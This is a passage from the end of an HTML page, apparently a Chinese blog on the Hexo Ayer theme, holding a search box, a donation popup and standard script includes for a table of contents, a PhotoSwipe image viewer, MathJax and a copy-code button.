      
      <a class="nav-item-link nav-item-search"  title="搜索">
        <i class="ri-search-line"></i>
      </a>
      
      
    </li>
  </ul>
</nav>
<div class="search-form-wrap">
  <div class="local-search local-search-plugin">
  <input type="search" id="local-search-input" class="local-search-input" placeholder="Search...">
  <div id="local-search-result" class="local-search-result"></div>
</div>
</div>
    </aside>
    <script>
      if (window.matchMedia("(max-width: 768px)").matches) {
        document.querySelector('.content').classList.remove('on');
        document.querySelector('.sidebar').classList.remove('on');
      }
    </script>
    <div id="mask"></div>

<!-- #reward -->
<div id="reward">
  <span class="close"><i class="ri-close-line"></i></span>
  <p class="reward-p"><i class="ri-cup-line"></i>请我喝杯咖啡吧~</p>
  <div class="reward-box">
    
    <div class="reward-item">
      
      <span class="reward-type">支付宝</span>
    </div>
    
    
    <div class="reward-item">
      
      <span class="reward-type">微信</span>
    </div>
    
  </div>
</div>
    
<script src="/js/jquery-2.0.3.min.js"></script>
 
<script src="/js/lazyload.min.js"></script>

<!-- Tocbot -->
 
<script src="/js/tocbot.min.js"></script>

<script>
  tocbot.init({
    tocSelector: '.tocbot',
    contentSelector: '.article-entry',
    headingSelector: 'h1, h2, h3',
    hasInnerContainers: true,
    scrollSmooth: false,
	  scrollSmoothDuration: 420,
    scrollContainer: 'main',
    positionFixedSelector: '.tocbot',
    positionFixedClass: 'is-position-fixed',
    fixedSidebarOffset: 'auto',
	  collapseDepth: 2,
  });
</script>

<script src="https://cdn.jsdelivr.net/npm/jquery-modal@0.9.2/jquery.modal.min.js"></script>
<link
  rel="stylesheet"
  href="https://cdn.jsdelivr.net/npm/jquery-modal@0.9.2/jquery.modal.min.css"
/>
<script src="https://cdn.jsdelivr.net/npm/justifiedGallery@3.7.0/dist/js/jquery.justifiedGallery.min.js"></script>

<script src="/dist/main.js"></script>

<!-- ImageViewer -->
 <!-- Root element of PhotoSwipe. Must have class pswp. -->
<div class="pswp" tabindex="-1" role="dialog" aria-hidden="true">

    <!-- Background of PhotoSwipe. 
         It's a separate element as animating opacity is faster than rgba(). -->
    <div class="pswp__bg"></div>

    <!-- Slides wrapper with overflow:hidden. -->
    <div class="pswp__scroll-wrap">

        <!-- Container that holds slides. 
            PhotoSwipe keeps only 3 of them in the DOM to save memory.
            Don't modify these 3 pswp__item elements, data is added later on. -->
        <div class="pswp__container">
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
            <div class="pswp__item"></div>
        </div>

        <!-- Default (PhotoSwipeUI_Default) interface on top of sliding area. Can be changed. -->
        <div class="pswp__ui pswp__ui--hidden">

            <div class="pswp__top-bar">

                <!--  Controls are self-explanatory. Order can be changed. -->

                <div class="pswp__counter"></div>

                <button class="pswp__button pswp__button--close" title="Close (Esc)"></button>

                <button class="pswp__button pswp__button--share" style="display:none" title="Share"></button>

                <button class="pswp__button pswp__button--fs" title="Toggle fullscreen"></button>

                <button class="pswp__button pswp__button--zoom" title="Zoom in/out"></button>

                <!-- Preloader demo http://codepen.io/dimsemenov/pen/yyBWoR -->
                <!-- element will get class pswp__preloader--active when preloader is running -->
                <div class="pswp__preloader">
                    <div class="pswp__preloader__icn">
                        <div class="pswp__preloader__cut">
                            <div class="pswp__preloader__donut"></div>
                        </div>
                    </div>
                </div>
            </div>

            <div class="pswp__share-modal pswp__share-modal--hidden pswp__single-tap">
                <div class="pswp__share-tooltip"></div>
            </div>

            <button class="pswp__button pswp__button--arrow--left" title="Previous (arrow left)">
            </button>

            <button class="pswp__button pswp__button--arrow--right" title="Next (arrow right)">
            </button>

            <div class="pswp__caption">
                <div class="pswp__caption__center"></div>
            </div>

        </div>

    </div>

</div>

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/photoswipe@4.1.3/dist/photoswipe.min.css">
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/photoswipe@4.1.3/dist/default-skin/default-skin.min.css">
<script src="https://cdn.jsdelivr.net/npm/photoswipe@4.1.3/dist/photoswipe.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/photoswipe@4.1.3/dist/photoswipe-ui-default.min.js"></script>

<script>
    function viewer_init() {
        let pswpElement = document.querySelectorAll('.pswp')[0];
        let $imgArr = document.querySelectorAll(('.article-entry img:not(.reward-img)'))

        $imgArr.forEach(($em, i) => {
            $em.onclick = () => {
                // slider展开状态
                // todo: 这样不好，后面改成状态
                if (document.querySelector('.left-col.show')) return
                let items = []
                $imgArr.forEach(($em2, i2) => {
                    let img = $em2.getAttribute('data-idx', i2)
                    let src = $em2.getAttribute('data-target') || $em2.getAttribute('src')
                    let title = $em2.getAttribute('alt')
                    // 获得原图尺寸
                    const image = new Image()
                    image.src = src
                    items.push({
                        src: src,
                        w: image.width || $em2.width,
                        h: image.height || $em2.height,
                        title: title
                    })
                })
                var gallery = new PhotoSwipe(pswpElement, PhotoSwipeUI_Default, items, {
                    index: parseInt(i)
                });
                gallery.init()
            }
        })
    }
    viewer_init()
</script> 
<!-- MathJax -->
 <script type="text/x-mathjax-config">
  MathJax.Hub.Config({
      tex2jax: {
          inlineMath: [ ['$','$'], ["\\(","\\)"]  ],
          processEscapes: true,
          skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code']
      }
  });

  MathJax.Hub.Queue(function() {
      var all = MathJax.Hub.getAllJax(), i;
      for(i=0; i < all.length; i += 1) {
          all[i].SourceElement().parentNode.className += ' has-jax';
      }
  });
</script>

<script src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.1/MathJax.js?config=TeX-MML-AM_CHTML"></script>
<script>
  var ayerConfig = {
    mathjax: true,
  };
</script>

<!-- Katex -->

<!-- busuanzi  -->

<!-- ClickLove -->

<!-- ClickBoom1 -->

<!-- ClickBoom2 -->

<!-- CodeCopy -->
 
<link rel="stylesheet" href="/css/clipboard.css">
 <script src="https://cdn.jsdelivr.net/npm/clipboard@2/dist/clipboard.min.js"></script>
<script>
  function wait(callback, seconds) {
    var timelag = null;
    timelag = window.setTimeout(callback, seconds);
  }
  !function (e, t, a) {
    var initCopyCode = function(){
      var copyHtml = '';
      copyHtml += '<button class="btn-copy" data-clipboard-snippet="">';
      copyHtml += '<i class="ri-file-copy-2-line"></i><span>COPY</span>';
      copyHtml += '</button>';
      $(".highlight .code pre").before(copyHtml);
      $(".article pre code").before(copyHtml);
      var clipboard = new ClipboardJS('.btn-copy', {
        target: function(trigger) {
          return trigger.nextElementSibling;
        }
      });
      clipboard.on('success', function(e) {
        let $btn = $(e.trigger);
        $btn.addClass('copied');
        let $icon = $($btn.find('i'));
        $icon.removeClass('ri-file-copy-2-line');
        $icon.addClass('ri-checkbox-circle-line');
        let $span = $($btn.find('span'));
        $span[0].innerText = 'COPIED';
        
        wait(function () { // 等待两秒钟后恢复
          $icon.removeClass('ri-checkbox-circle-line');
          $icon.addClass('ri-file-copy-2-line');
          $span[0].innerText = 'COPY';
        }, 2000);
      });
      clipboard.on('error', function(e) {
        e.clearSelection();
        let $btn = $(e.trigger);
        $btn.addClass('copy-failed');
        let $icon = $($btn.find('i'));
        $icon.removeClass('ri-file-copy-2-line');
        $icon.addClass('ri-time-line');
        let $span = $($btn.find('span'));
        $span[0].innerText = 'COPY FAILED';
        
        wait(function () { // 等待两秒钟后恢复
          $icon.removeClass('ri-time-line');
          $icon.addClass('ri-file-copy-2-line');
          $span[0].innerText = 'COPY';
        }, 2000);
      });
    }
    initCopyCode();
  }(window, document);
</script>
 
<!-- CanvasBackground -->

<script>
  if (window.mermaid) {
    mermaid.initialize({ theme: "forest" });
  }
</script>


    
  </div>
</body>

</html>